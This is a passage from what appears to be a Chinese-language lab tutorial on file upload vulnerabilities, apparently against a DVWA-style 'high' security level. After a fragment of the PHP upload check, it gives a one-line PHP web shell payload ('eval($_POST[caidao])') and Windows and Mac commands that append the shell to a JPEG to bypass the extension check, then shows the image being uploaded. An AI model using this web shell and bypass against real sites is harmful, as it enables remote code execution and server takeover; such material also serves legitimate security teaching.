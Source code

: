 ```php
        }
        else {
            // Yes!
            echo "<pre>{$target_path} succesfully uploaded!</pre>";
        }
    }
    else {
        // Invalid file
        echo '<pre>Your image was not uploaded. We can only accept JPEG or PNG images.</pre>';
    }
}

?>
123456789101112131415161718192021222324252627282930313233343536
```

查看源码发现高安全级别模式下限制的是文件的后缀名而不是文件类型，所以通过修改文件类型是没有做用的。

图片木马
`<?fputs(fopen("shell.php","w"),'<?php eval($_POST[caidao]);?>')?>`

```shell
方法一：windows 命令: copy img.jpg/b+shell.php cshell.jpg
 
方法二：edjpgcom

mac   cat 2.jpeg shell.php > 1.jpeg
```

查看生成图片后的文件
![在这里插入图片描述](70、文件上传漏洞/20200801173021423.png)
一句话木马已经植入到图片中。
将已经植入木马的图片上传
![在这里插入图片描述](70、文件上传漏洞/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NDAzMjIzMg==,size_16,color_FFFFFF,t_70-20201111094605751.png)
访问显示正常